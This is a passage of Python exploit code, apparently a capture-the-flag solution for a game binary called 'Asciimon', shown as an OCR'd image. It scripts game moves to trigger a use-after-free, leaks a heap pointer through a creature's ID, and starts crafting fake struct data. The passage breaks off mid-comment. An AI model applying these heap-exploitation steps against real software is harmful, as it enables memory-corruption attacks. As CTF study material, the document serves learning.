```python
    io.sendlineafter('Choices: Plant Frog, Fire Lizard, Water Turtle\n', 'Plant Frog')
    confirm_yn()

    # Use hidden commands
    execute_command('encounters show')
    execute_command('encounters off')

    # Go next to the name rater
    go_left(7)
    press_enter_to_continue()  # Open door
    go_left(3)
    fly('deepblue')
    go_down(6)
    go_left(1)

    # Fight, win and exchange 'Pitcher Plant' two times
    # This creates a use-after-free situtation
    fight('Enraged Pony draws near')  # Not the pokemon we want to fight
    execute_command('run')
    press_enter_to_continue()  # ran away
    fight('A Normal Pitcher Plant')
    attack_until_win_and_exchange_pokemon()
    fight('A Timid Pitcher Plant')
    attack_until_win_and_exchange_pokemon()
    # At this point, the 'Pitcher Plant' is being used, but is also freed.
    # Asciimons has been malloced using malloc(0x40)
    # When talking to the name rater, you can change your name.
    # This will malloc(0x40) for your name. Perfect match!

    # We are now in a used after free. We can get a heap pointer
    # by looking at the ID of our pokemon.
    # It contains the first 4 bytes of a the heap free-list pointer
    # The last 4 bytes are assumed zero
    heap_addr = get_heap_address_from_companion()

    # Change name to create a pokemon of id 'x'
    # Start a fight and run from it, such that we have seen it
    for x in range(1, 152):
        # Argh 'Caterpillar' with id '10' will end up trying
        # to change its name to '\n' which will stop
        # the reading of the name!
        # However, the pokemon can be found in Veridian Forest.
        # Fastest way to get there: 'fly gray', go down
        # Veridian Forest

        if x == 10:  # Cannot handle '\n' for the 'Caterpillar'
            continue
        asciimon_name = str(x).encode()
        while len(asciimon_name) < 31:
            asciimon_name += b'A'
        hp = 10000
        attack = 1
        defence = 1000
        speed = 1000
        is_used_by_player = 1  # Must be set to one, or asciiart is free'd when map is changed
                               # which causes a crash
        # An Asciimon looks like this:
        # struct Asciimon {
        #     int id_0x0;
        #     char name_0x4[32];
        #     int hp_0x24;
        #     int attack_0x28;
        #     int defense_0x2c;
```